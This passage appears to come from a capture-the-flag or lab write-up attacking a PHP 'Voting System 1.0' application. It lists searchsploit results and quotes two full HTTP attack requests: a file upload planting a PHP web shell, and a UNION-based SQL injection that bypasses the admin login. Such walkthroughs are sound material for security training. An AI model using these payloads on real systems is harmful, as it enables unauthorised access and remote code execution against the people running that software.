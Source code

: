```bash
Online Voting System 1.0 - SQLi (Authentication Bypass) + | php/webapps/50088.py
Online Voting System Project in PHP - 'username' Persiste | multiple/webapps/49159.txt
Voting System 1.0 - Authentication Bypass (SQLI)          | php/webapps/49843.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote | php/webapps/49445.py
Voting System 1.0 - Remote Code Execution (Unauthenticate | php/webapps/49846.txt
Voting System 1.0 - Time based SQLI (Unauthenticated SQL  | php/webapps/49817.txt
WordPress Plugin Poll_ Survey_ Questionnaire and Voting s | php/webapps/50052.txt
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Since this is a controlled environment, in a vpn, we suppose the online solutions don't fit. This leaves us with the `Voting system 1.0` exploits. 
If we examine the exploit `49846.txt`, RCE, we observe the following payload:
```bash
########################### Payload ############################
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```
As we can see, the target is `/admin/candidates_add.php` but we cannot access that path. As we are not able to upload files, this excludes RCE for now, let's focus on SQLi based login bypass. If we examine the file `49843.txt` we see the following payload:
```bash
########################### Payload ############################
POST /admin/login.php HTTP/1.1
Host: 192.168.1.1
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=tliephrsj1d5ljhbvsbccnqmff
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
```